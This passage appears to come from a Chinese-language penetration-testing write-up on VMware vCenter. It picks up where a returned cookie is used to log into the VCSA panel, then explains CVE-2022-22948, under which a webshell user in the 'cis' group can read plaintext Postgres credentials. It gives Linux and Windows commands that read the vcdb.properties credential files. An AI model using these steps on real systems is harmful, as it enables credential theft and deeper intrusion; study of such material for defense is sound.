 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223914.png-water_print](assets/1708572547-917cff399d0bdfee60459523c7324945.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223914.png-water_print")

登录 VCSA 管理面板，访问 `https://IP/ui`，并设置 Cookie 为上面的返回结果。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223366.png-water_print](assets/1708572547-bf1a617f2858ffe279aac5c4cf2cdeca.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223366.png-water_print")

### [](#32-cve-2022-22948-%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93)3.2 CVE-2022-22948 权限配置不当

vCenter Server 包含由于文件权限不正确而导致的信息泄露漏洞，可以利用此漏洞在对 vCenter Server 具有非管理员访问权限的情况下获取敏感信息。

通过第二节描述的漏洞获取的 webshell 权限通常为：`vphere-ui`，归属于用户组：`cis`。在 vCenter 系统的研究中，存在一个包含客户端 `postgresDB` 的明文登录凭证的文件：`/etc/vmware-vpx/vcdb.properties`。任何属于 `cis` 组的用户都可以访问这个文件。即：任何属于 `cis` 组的用户都可以连接到 vCenter 的 Postgres 数据库。

获取 postgresql 配置文件信息：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br># linux<br>cat /etc/vmware-vpx/vcdb.properties<br># or<br>cat /etc/vmware/service-state/vpxd/vcdb.properties<br><br># windows<br>type  C:\ProgramData\VMware\vCenterServer\cfg\vmware-vps\vcdb.properties<br>``` |

